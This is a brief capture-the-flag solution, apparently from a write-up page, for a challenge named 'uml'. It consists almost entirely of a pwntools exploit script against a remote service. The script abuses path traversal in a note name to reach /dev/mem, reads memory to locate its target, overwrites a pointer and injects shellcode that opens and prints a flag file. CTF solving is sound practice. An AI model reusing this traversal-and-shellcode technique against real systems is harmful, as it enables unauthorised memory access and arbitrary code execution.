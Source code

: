 ```python=
```

### uml

```python
from pwn import *
context.arch = "amd64"

r = remote("3.115.128.152", 3154)
def Read(size):
    r.sendlineafter("Choose one:","2")
    r.sendlineafter("Size?",str(size))
    r.recvline()
    r.recvline()
    return r.recvn(size)

def Write(data):
    r.sendlineafter("Choose one:","1")
    r.sendlineafter("Size?",str(len(data)))
    r.recvline()
    r.recvline()
    r.sendline(data)
r.sendlineafter("Name of note?","/../../../dev/mem")


for i in range(0x360):
    Read(0x1000)
    print(hex(i))

for i in range(0xd):
    Read(0x1000)
    print(hex(i))

Read(0x900+8*10)

sc = b"/home/uml/flag-6db0fa76a6b0".ljust(0x30,b"\x00")
sc += asm(f"""
mov rdi,0x6036D958
mov rsi,0x0
mov rax,2
syscall
mov rdi,rax
mov rsi,rsp
mov rdx,0x100
mov rax,0
syscall
mov rax,1
mov rdi,1
mov rsi,rsp
mov rdx,0x100
syscall
l:
 jmp l
""")

payload = p64(0x6036D900+8*11+0x30)
payload += sc
Write(payload)
r.interactive()

```
